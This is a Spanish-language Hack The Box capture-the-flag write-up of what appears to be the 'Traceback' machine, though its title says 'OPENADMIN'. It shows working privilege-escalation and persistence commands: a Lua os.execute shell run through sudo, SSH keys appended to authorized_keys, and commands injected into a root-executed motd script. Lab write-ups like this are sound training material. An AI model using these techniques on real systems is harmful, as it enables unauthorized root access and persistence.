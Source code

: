```yaml
---
title: "HTB – OPENADMIN"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2020/traceback.png"
categories:
  - WriteUp
---
```


OS 				 | LINUX
Desarrollado por | Xh4H
Dificultad 		 | Fácil
Liberación 		 | 14 marzo 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando **nmap -sCV -A 10.10.10.181** solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 01:42 BST
Nmap scan report for 10.10.10.181
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=43037%PV=Y%DS=2%DC=T%G=Y%TM=5E9CF01 OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS( OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11 OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 77.21 ms 10.10.14.1
2 77.32 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 24.47 seconds
```

Por lo que se empieza a buscar información en el código fuente de la página web, mientras se ejecuta la **dirbuster** para buscar paginas ocultas y poder acceder a ellas.

No se encuentra información importante por lo que se utiliza google para buscar nuevas soluciones. Encontramos que el creador posteo en su twitter algunas webshell interesantes.

!(Traceback 1)[/assets/images/post/2020/traceback1.png]

Al usar este nuevo listado en **dirbuster** con el nuevo listado descubrimos un archivo llamado smevk.php y al revisar el codigo de este en internet descubrimos que se puede acceder con el usuario admin/admin

!(Traceback 2)[/assets/images/post/2020/traceback2.png]

Acá nos permitirá crear nuestro propio archivo php, en este caso crearemos un php con una shell reverse, al ejecutarla accedemos a nuestra primera shell.

## 1° Shell

Al cargar esta shell accedemos al sistema con el usuario webadmin, por lo que nos ponemos a revisar sus carpetas, el historial y los permisos que este posee con **sudo –l**

Se ve que el usuario creó un archivo privesc.lua y despues lo elimina, sin antes ejecutarlo

```
Matching Defaults entries for webadmin on traceback:
	env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
	(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

<p>Nos damos cuenta que podemos ejecutar un programa sin la password del usuario sysadmin, además creamos uno archivo lua, en el cual posea el comando <b>echo 'os.execute("/bin/sh")' > racso.lua</b>. Una vez que lo ejecutamos tal como se mostró en el historial podemos acceder a la shell del usuario</p>

## Shell Usuario

<p>Al escalar el privilegio obtenemos la primera flag, luego empezamos a buscar alguna otra forma de subir el privilegio a root, lo primero que vemos son los procesos <b>ps –aux</b> y nos llama la atención una que es ejecutada por <p>root</p> <i>(/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/)</i> y lo que nos dice que se ejecuta el archivo 00-header cada vez que hay una conexión exitosa de SSH.</p>

Por otro lado, encontramos en la carpeta **.ssh** del usuario los archivos de autorización de las conexiones, es por ello que, ingresaremos nuestro propio ssh-rsa a este archivo para que sea válido al momento de conectarnos

- Creamos nuestro rsa con **ssh-keygen -t rsa**
- Copiamos este rsa.pub generado en el archivo **authorized_keys** escribiendo
	echo “TODO LO QUE EL ARCHIVO ID_RSA.PUB CONTENGA” >> /home/sysadmin/.ssh/authorized_keys
- Ejecutamos una conexión ssh desde nuestro equipo utilizando el id_rsa creado **ssh –i id_rsa sysadmin@10.10.10.181**

Lo que permitirá acceder vía ssh a la máquina, el problema es que hasta el momento mantenemos el mismo nivel de usuario.

Al seguir investigando sobre update-motd.d que está en la carpeta /etc/ nos percatamos que el usuario sysadmin tiene permiso de escritura para el archivo 00-header, por lo que ingresaremos un comando donde nos mostrará la flag.

<p>Si escribimos echo <b>"cat /root/root.txt" >> /etc/update-motd.d/00-header</b> tal como averiguamos antes cargará este comando al momento de acceder a la termina vía ssh mostrandonos la flag al acceder, sin obtener la shell root.</p>

## Root shell

No es necesario acceder a esta shell si solo quieren obtener las flag, pero si de igual forma quieren acceder se puede usar el mecanismo anterior pero ahora guardando la clave publica en el archivo authorized_keys del root, para ello escribimos lo siguiente

```
echo "echo \" LO QUE ESTA EN EL ID_RSA.PUB \" >> /root/.ssh/authorized_keys" >> /etc/update-motd.d/00-header
```

Ingresamos nuevamente como sysadmin, para que ejecute el comando y ahora al salir de la maquina podremos volver a conectarnos, pero con el usuario root

```
root@traceback:~# id && date uid=0(root) gid=0(root) groups=0(root) Sun Apr
```

![Racso](https://www.hackthebox.com/badge/image/159593)
